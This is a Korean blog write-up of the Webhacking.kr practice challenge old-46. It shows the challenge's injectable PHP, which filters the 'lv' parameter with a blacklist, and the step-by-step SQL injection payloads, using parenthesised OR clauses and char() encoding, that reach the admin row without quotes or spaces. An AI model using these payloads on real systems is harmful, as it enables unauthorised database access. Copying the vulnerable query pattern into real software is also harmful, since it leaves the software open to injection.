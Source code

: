 ```yaml
---
title: ["[Webhacking.kr] old-46 (sqli - 30)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, mysql]
---
```


```php
<?php
  if($_GET['lv']){
    $db = dbconnect();
    $_GET['lv'] = addslashes($_GET['lv']);
    $_GET['lv'] = str_replace(" ","",$_GET['lv']);
    $_GET['lv'] = str_replace("/","",$_GET['lv']);
    $_GET['lv'] = str_replace("*","",$_GET['lv']);
    $_GET['lv'] = str_replace("%","",$_GET['lv']);
    if(preg_match("/select|0x|limit|cash/i",$_GET['lv'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select id,cash from chall46 where lv=$_GET[lv]"));
    if($result){
      echo("{$result['id']} information<br><br>money : {$result['cash']}");
      if($result['id'] == "admin") solve(46);
    }
  }
?>
```

```
?lv=1  // ltusy
?lv=2  // udnrg
?lv=3  // fvvcg
?lv=4  // bzrbo
```
간단히 넣어봤을 때 이정도의 결과가 나왔다.  

```sql
select id,cash from chall46 where lv=$_GET[lv]
```
위와 같은 쿼리에 quotation과 공백 없이 인젝션을 하면 된다.  

```sql
select id,cash from chall46 where lv=(0)or(lv>4)
```
위 쿼리에는 아무 결과가 출력되지 않았다.  
admin은 lv값이 없는 것 같다.

```sql
select id,cash from chall46 where lv=(0)or(ascii(id)=97)
```
위의 쿼리가 실행되도록 인젝션을 해봤는데, `ajqng`라는 id가 또 있었다.  

```sql
select id,cash from chall46 where lv=(0)or(id=char(97,100,109,105,110))
```  
위의 쿼리는 잘 작동했다.  
quotation 없이 compare하는 방법은 정말 무궁무진한 것 같다.  


